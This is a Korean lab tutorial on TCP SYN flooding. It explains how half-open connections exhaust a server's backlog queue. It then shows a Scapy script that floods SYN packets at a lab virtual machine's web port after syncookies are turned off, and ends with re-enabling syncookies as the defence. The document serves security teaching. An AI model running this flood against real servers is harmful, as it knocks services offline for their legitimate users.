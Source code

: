 ```yaml
---
sort: 3
---
```


# TCP SYN Flooding

<center><img src = "https://user-images.githubusercontent.com/76420201/106401723-fbdeef80-6468-11eb-80f2-9ee8eaece9d6.jpg"></center>


TCP/IP 네트워크에서의 정상적 TCP 연결 3-way handshake 과정의 경우, 클라이언트가 원격지 서버의 특정 포트에 SYN패킷(packet)을 발송함으로써 연결을 요청하고 요청을 받은 원격 서버가 SYN/ACK 패킷으로 응답한 후 수신된 연결 요청 정보를 해당 시스템 TCP 연결 자원인 Backlog Queue내 incomplete connection queue에 저장한다.

이때 서버가 응답한 SYN+ACK에 대하여 클라이언트가 ACK로써 응답을 보내지 않으면 accept()시스템 콜을 통해 클라이언트와 통신할 연결소켓을 생성하지 못하므로 서버는 incomplete connetion queue에 있던 연결 요청 정보를 수행하지 못하고 그대로 남아있다는 **half-open TCP** 연결 상태에 머무르는 구조적 취약점이 있다.

Attacker(공격자)는 이 취약점을 이용한 서비스 거부(Dos)를 유발하는 공격을 위해서 서버 특정 포트에 SYN packet을 발송하는 과정을 대량으로 중첩시켜 Backlog Queue내 incomplete connetion queue를 가득 채움으로써 소진시키게 되고 이로인해 더 이상 새로운 클라이언트의 TCP 연결요청을 받을 수 없게 되어 이 후 요청되는 다수의 TCP 연결이 완료되지 않고 무시된다.

```note
백로그 큐가 꽉 차게 되면 더 이상 연결요청을 받을 수 없어 정상적인 서비스 제공이 불가능한 상태가 된다.

클라이언트의 응답 문자(ACK)가 없으면 서버에서는 클라이언트의 접속 정보를 잠시 운용 기록에 쌓아 두는데, 이러한 요구가 증가했을 경우 시스템은 운용기록 공간을 확보하기 못하게 되고, 결국 네트워크 중단으로 이어여 Dos가 일어난다.

TCP 통신 연결 수립을 위한 3way-handshake 특성을 이용하여 클라이언트에서 SYN 정보만 전송 후, SYN/ACK 정보 수신에 따른 ACK전송을 하지 않음으로써 서버를 장시간 대기상태로 만들어 리소스를 점유하는 전형적인 SYN Flooding 공격 유형이다.
```
<br>

## 공격과정

**Step 1. Victim 가상머신에서 syncookie 사용을 확인 후 사용을 해제**

```
┌──(kali㉿kali)-[~]
└─$ sudo sysctl -a | grep syncookies
'net.ipv4.tcp_syncookies = 1'
```

syncookie를 사용하면 backlog que가 가득 차 있어도 정보를 계속 쌓을 수 있다. 실습을 위해서 Victim의 syncookie를 해제한다.

```
┌──(kali㉿kali)-[~]
└─$ sudo sysctl -w  net.ipv4.tcp_syncookies=0		
'net.ipv4.tcp_syncookies = 0'	
```

---

**Step 2. TCP syn flooding 공격**

```
┌──(kali㉿kali)-[~]
└─$ sudo scapy   
```

```
>>> tcp = TCP()
>>> tcp.dport = 80
>>> tcp.sport = RandNum(1024, 65535)
>>> tcp.flags = 'S'
>>> ip = IP()
>>> ip.dst = '192.168.94.133'
>>> syn = ip / tcp
>>> syn.show()

>>> send(syn, loop=True)
```

**Step 3. Victim 가상머신에서 네트워크 상태 확인**

```
┌──(kali㉿kali)-[~]
└─$ sudo netstat -an | grep -i syn_recv
```

![synflooding1](https://user-images.githubusercontent.com/76420201/107165490-73c39180-69f6-11eb-9140-af935a7eb2d8.GIF)

- WinXP 가상머신에서 Victim 가상머신의 아파치 서버로 접속을 시도
![synflooding2](https://user-images.githubusercontent.com/76420201/107165492-758d5500-69f6-11eb-9ea0-e1523287231a.GIF)


**Step 4. Victim 가상머신에서 syncookie 설정**

```
┌──(kali㉿kali)-[~]
└─$ sudo sysctl -a | grep syncookies   
net.ipv4.tcp_syncookies = 0
```                                                                                                                    ```
┌──(kali㉿kali)-[~]
└─$ sudo sysctl -w  net.ipv4.tcp_syncookies=1
net.ipv4.tcp_syncookies = 1
```                                                                                                                   ``` 
┌──(kali㉿kali)-[~]
└─$ sudo service apache2 restart  
```

- WinXP 가상머신에서 Victim 가상머신의 아파치 서버로 접속 시도
![synflooding3](https://user-images.githubusercontent.com/76420201/107165494-76be8200-69f6-11eb-9a0e-ea6dc959f788.GIF)


